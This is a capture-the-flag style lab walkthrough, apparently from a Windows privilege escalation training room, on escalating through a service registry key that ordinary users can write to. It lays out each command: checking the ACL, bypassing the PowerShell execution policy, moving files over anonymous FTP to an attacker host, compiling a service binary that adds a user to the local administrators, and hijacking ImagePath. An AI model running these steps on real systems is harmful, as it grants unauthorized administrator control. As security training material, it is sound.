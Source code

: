 # Service Escalation - Registry

- Using `Get-Acl` we determine that the `NT AUTHORITY\INTERACTIVE` has full control over the `regsvc` registry
- We can add a malicious executable to the registry service
- We can exploit this to either get a reverse shell or add a user

## Step 1: Detection

- Open PowerShell prompt and type: **`Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`**

```jsx
C:\Users\user> powershell -ep bypass
PS C:\Users\user> Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

- Notice that the output suggests that user belong to “`NT AUTHORITY\INTERACTIVE`” has “`FullContol`” permission over the registry key.

![get_acl](/images/get_acl.png)

## Step 2: Transfer File

- Start FTP server on port 21 and allow `write` access

```jsx
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ pip3 install pyftpdlib

┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ python -m pyftpdlib -p 21 --write
/home/vagrant/.local/lib/python3.11/site-packages/pyftpdlib/authorizers.py:108: RuntimeWarning: write permissions assigned to anonymous user.
  self._check_permissions(username, perm)
[I 2023-12-27 23:12:18] concurrency model: async
[I 2023-12-27 23:12:18] masquerade (NAT) address: None
[I 2023-12-27 23:12:18] passive ports: None
[I 2023-12-27 23:12:18] >>> starting FTP server on 0.0.0.0:21, pid=2440229 <<<
```

- Open terminal in the directory where `windows_service.c` is located

![source](\images\source.png)

- Copy ‘`C:\Users\User\Desktop\Tools\Source\windows_service.c`’ to the attack machine

```jsx
C:\Users\User\Desktop\Tools\Source> ftp 10.18.48.44
User (10.18.48.44:(none)): anonymous
Password:
230 Login successful
ftp> put windows_service.c
```

![put](\images\put.png)

## Step 3: Exploitation

- Open `windows_service.c` in a text editor and replace the command used by the system() function to: **`cmd.exe /k net localgroup administrators user /add`**

![edit](\images\edit.png)

- Compile the file by typing the following in the command prompt:
  - **`x86_64-w64-mingw32-gcc windows_service.c -o x.exe`**
  - **NOTE: if this is not installed, use '`sudo apt install gcc-mingw-w64`'**

```jsx
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```

- Copy the generated file `x.exe`, to the target using the `pytfp` server
- Make sure to use `binary` mode for the transfer process

![get](\images\get.png)

### Add Executable to `ImagePath` of the Registry Service

- Open command prompt at type:

**`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`**

```jsx
C:\Temp> **reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f**
```

- Start the `registry service` in the command prompt type: **`sc start regsvc`**

```jsx
C:\Temp> sc start regsvc
```

- Verify the `user` account has been added to the `local administrators` group

```jsx
C:\Temp> net localgroup administrators
```

![start](\images\start.png)

